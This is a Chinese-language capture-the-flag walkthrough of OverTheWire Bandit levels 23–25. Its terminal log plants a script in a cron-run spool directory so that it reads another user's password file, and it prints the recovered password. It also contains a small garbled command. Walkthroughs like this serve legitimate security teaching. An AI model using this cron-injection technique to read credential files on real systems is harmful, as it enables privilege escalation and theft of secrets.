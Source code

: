 
Level 23 -24

描述：一个程序从cron（基于时间的作业调度程序）定期自动运行。查看/etc/cron.d/中的配置并查看正在执行的命令。 

注意：这个级别要求你创建你自己的第一个shell脚本。这是非常大的一步，当你击败这个级别时，你应该为自己感到骄傲！ 

注意2：请记住，你的shell脚本一旦执行就会被删除，所以你可能想保留一个副本...

密码：UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

```sh
bandit23@bandit:/var/spool/bandit24$ ll /etc/cron.d
total 28
drwxr-xr-x   2 root root 4096 Nov 13 15:58 ./
drwxr-xr-x 101 root root 4096 Nov 16 10:18 ../
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--   1 root root  120 Nov 13 15:58 cronjob_bandit22
-rw-r--r--   1 root root  122 Nov 13 15:58 cronjob_bandit23
-rw-r--r--   1 root root  120 Nov 13 15:58 cronjob_bandit24
-rw-r--r--   1 root root  190 Oct 31 13:21 popularity-contest
bandit23@bandit:/var/spool/bandit24$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/var/spool/bandit24$ cat -n /usr/bin/cronjob_bandit24.sh
     1  #!/bin/bash
     2
     3  myname=$(whoami)
     4
     5  cd /var/spool/$myname
     6  echo "Executing and deleting all scripts in /var/spool/$myname:"
     7  for i in * .*;
     8  do
     9      if [ "$i" != "." -a "$i" != ".." ];
    10      then
    11          echo "Handling $i"
    12          timeout -s 9 60 ./$i
    13          rm -f ./$i
    14      fi
    15  done
bandit23@bandit:/var/spool/bandit24$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass" > /var/spool/bandit24/bandit24_getpwd ; chmod 777 bandit24_getpwd ; chmod 777 /tmp/bandit24_pass
bandit23@bandit:/var/spool/bandit24$ cat chmod 777 /tmp/bandit24_pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

心路历程：我们定位脚本的思路不变，看脚本发现：该脚本会执行 `/var/spool/bandit24` 的脚本，60s 如果还没之行结束会强制kill掉，然后删除。所以我们写了一个把 `/etc/bandit\_pass/bandit24/` 输出到 /tmp/bandit24\_pass 的脚本到这个目录下，然后付了个权限。

---

Level 24 - 25

描述：一个守护进程正在监听端口30002，如果给出了bandit24的密码和一个秘密的数字4位pincode，将给你bandit25的密码。没有办法检索pincode，除非枚举10000个组合，称为蛮力。
